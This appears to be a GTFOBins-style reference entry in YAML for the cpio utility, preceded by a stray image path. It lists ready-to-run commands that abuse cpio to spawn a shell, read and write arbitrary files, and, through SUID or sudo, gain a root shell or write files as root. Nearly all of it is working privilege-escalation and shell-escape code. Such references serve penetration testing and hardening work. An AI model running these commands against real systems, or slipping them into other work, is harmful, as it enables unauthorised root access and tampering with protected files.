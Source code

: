 functions:
  shell:
    - code: |
        echo '/bin/sh </dev/tty >/dev/tty' >localhost
        cpio -o --rsh-command /bin/sh -F localhost:
  file-read:
    - description: The content of the file is printed to standard output, between the cpio archive format header and footer.
      code: |
        LFILE=file_to_read
        echo "$LFILE" | cpio -o
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | cpio -dp $TF
        cat "$TF/$LFILE"
  file-write:
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | cpio -up $LDIR
  suid:
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | ./cpio -R $UID -dp $TF
        cat "$TF/$LFILE"
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | ./cpio -R 0:0 -p $LDIR
  sudo:
    - code: |
        echo '/bin/sh </dev/tty >/dev/tty' >localhost
        sudo cpio -o --rsh-command /bin/sh -F localhost:
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | sudo cpio -R $UID -dp $TF
        cat "$TF/$LFILE"
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | sudo cpio -R 0:0 -p $LDIR
---
